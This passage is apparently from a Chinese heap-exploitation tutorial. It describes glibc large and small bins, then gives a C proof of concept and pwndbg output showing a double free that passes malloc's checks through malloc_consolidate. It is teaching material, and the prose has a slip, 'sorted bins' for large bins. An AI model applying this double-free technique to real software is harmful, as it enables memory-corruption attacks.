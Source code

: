 #### 2.large bin

在 SIZE_SZ 为 4B 的平台上，大于等于 512B 的空闲 chunk，或者，**在 SIZE_SZ 为 8B 的平台上，大小大于等于 1024B =0x400的空闲 chunk**，由 sorted bins 管理。 

Large bins 一共包括 63 个 bin，每个 bin 中的 chunk 大小不是一个固定公差的等差数列， 而是分成 6 组 bin，每组 bin 是一个固定公差的等差数列，每组的 bin 数量依次为 32、 16、 8、 4、 2、 1，公差依次为 64B、 512B、
4096B、 32768B、 262144B 等。

#### 3.small bin

在 SIZE_SZ 为 4B 的平台上， small bins 中的 chunk 大小是以 8B 为公差的等差数列，最大
的 chunk 大小为 504B，最小的 chunk 大小为 16B，所以实际共 62 个 bin。分别为 16B、 24B、32B，……， 504B。**在 SIZE_SZ 为 8B 的平台上**， small bins 中的 chunk 大小是以 16B 为公差的等差数列，最大的 chunk 大小为 1008B，最小的 chunk 大小为 32B，所以实际共 62 个 bin，分别为 **32B**、 48B、 64B，……， **1008B**。

#### 4.解析源码+debug

```c++
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>

int main() {
  void* p1 = malloc(0x40);
  void* p2 = malloc(0x40);
  fprintf(stderr, "Allocated two fastbins: p1=%p p2=%p\n", p1, p2);
  fprintf(stderr, "Now free p1!\n");
  free(p1);

  void* p3 = malloc(0x400); //因此满足64位os下的large bin要求
  fprintf(stderr, "Allocated large bin to trigger malloc_consolidate(): p3=%p\n", p3);
  fprintf(stderr, "In malloc_consolidate(), p1 is moved to the unsorted bin.\n");
  free(p1);
  fprintf(stderr, "Trigger the double free vulnerability!\n");
  fprintf(stderr, "We can pass the check in malloc() since p1 is not fast top.\n");
  fprintf(stderr, "Now p1 is in unsorted bin and fast bin. So we'will get it twice: %p %p\n", malloc(0x40), malloc(0x40));
}
```

首先看代码，先申请了两个fastbin分别为p1和p2，此时bins均为空。

```shell
pwndbg> heap
0x602000 FASTBIN {
  prev_size = 0x0, 
  size = 0x51, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
0x602050 FASTBIN {
  prev_size = 0x0, 
  size = 0x51, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
0x6020a0 PREV_INUSE {
  prev_size = 0x0, 
  size = 0x20f61, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
```